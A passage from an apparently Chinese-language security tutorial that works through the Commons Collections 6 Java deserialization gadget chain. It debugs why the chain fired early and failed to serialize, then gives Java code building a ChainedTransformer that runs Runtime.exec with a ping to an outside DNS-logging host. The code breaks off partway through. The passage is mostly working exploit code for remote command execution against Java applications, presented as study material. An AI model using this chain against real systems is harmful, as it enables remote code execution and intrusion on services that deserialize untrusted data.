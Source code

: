 
执行后成功触发 DNS 请求，但这并不是预期的！

![alt text](image-48.png)

还是老问题，在下面这里下一个断点-->

![alt text](image-99.png)

跟堆栈可以发现并不是反序列化触发的，而是`entryMap.put(tiedMapEntry, 1);`这行代码触发的，详情见下-->

![alt text](image-100.png)

同时运行完上述代码看报错信息可以发现，它并没有成功的序列化！这样子连恶意 Payload 都生成不了，详情如下-->

![alt text](image-101.png)

不解决这两个问题，链子没法用！

## 解决问题

另辟蹊径中提出的两个问题，其实是一个原因造成的，都是因为`entryMap.put(tiedMapEntry, 1);`这行代码执行后直接触发了 sink，而 sink 一旦被触发就会新建线程、命令执行等等一系列的操作，不能保证其中所有的操作都继承了 Serializable 接口，自然不会被序列化成功。借鉴 URLDNS 链的思想，反射改一下 tiedMapEntry 里面的东西，代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
```